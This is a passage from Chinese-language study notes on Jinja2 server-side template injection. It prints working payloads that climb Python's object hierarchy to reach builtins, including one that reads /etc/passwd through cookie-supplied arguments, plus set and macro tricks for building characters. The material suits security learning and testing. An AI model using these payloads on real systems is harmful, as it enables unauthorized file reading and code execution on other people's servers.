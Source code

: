 `{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.cookies.arg1](request.cookies.arg2).read()}}``
``Cookie:arg1=open;arg2=/etc/passwd`

#### 获取内置函数

列如获取`chr`

```
{{().__class__.__base__.__subclasses__()[100].__init__.__globals__["__builtins__"]["chr"]}}
```

如果你觉得每次调用都需要这样写，太麻烦了，payload 也冗余，那么就可以结合 `{% set ... %}`：

```
{% set chr = ().__class__.__base__.__subclasses__()[100].__init__.__globals__["__builtins__"]["chr"]%}

{{ chr(97)~chr(98) }}
```

结合宏：

```
{%- macro chr(i) -%}
    {{().__class__.__base__.__subclasses__()[100].__init__.__globals__["__builtins__"]["chr"](i)}}
{%- endmacro -%}

{{ chr(97)~chr(98) }}
```

由于 jinja2 中有自己的一些内置变量等，所以会有一些资料 2 之外的姿势。例如利用 `Undefined` 实例可以直接拿到 `__globals__`：

```
{{ x.__init__.__globals__ }}
```

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230803172419855.png)

